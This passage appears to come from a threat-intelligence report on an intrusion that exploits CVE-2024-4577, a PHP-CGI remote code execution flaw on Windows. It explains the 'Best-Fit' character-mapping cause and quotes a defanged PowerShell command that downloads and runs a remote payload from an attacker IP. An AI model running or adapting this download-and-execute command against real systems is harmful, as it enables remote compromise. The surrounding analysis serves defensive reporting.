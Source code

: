 ![alt text](<images/The Feed 2025-03-07_6.jpg>)
The attack commences with the exploitation of **CVE-2024-4577**, a critical remote code execution (RCE) vulnerability affecting Windows-based PHP installations using CGI configurations. This flaw stems from the "Best-Fit" behavior in Windows code pages, which can be misinterpreted by the PHP-CGI module, allowing attackers to execute arbitrary PHP code via specially crafted command-line inputs when Apache is used with a vulnerable PHP-CGI setup. The attacker leverages a publicly available Python exploit script, "PHP-CGI\_CVE-2024-4577\_RCE.py," to check for vulnerability and then execute arbitrary PHP code. In this specific intrusion, the attacker embedded a **PowerShell command within the PHP code** to initiate the infection:
```powershell
powershell -c "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http[://]38[.]14[.]255[.]23[:]8000/payload[.]ps1')"
```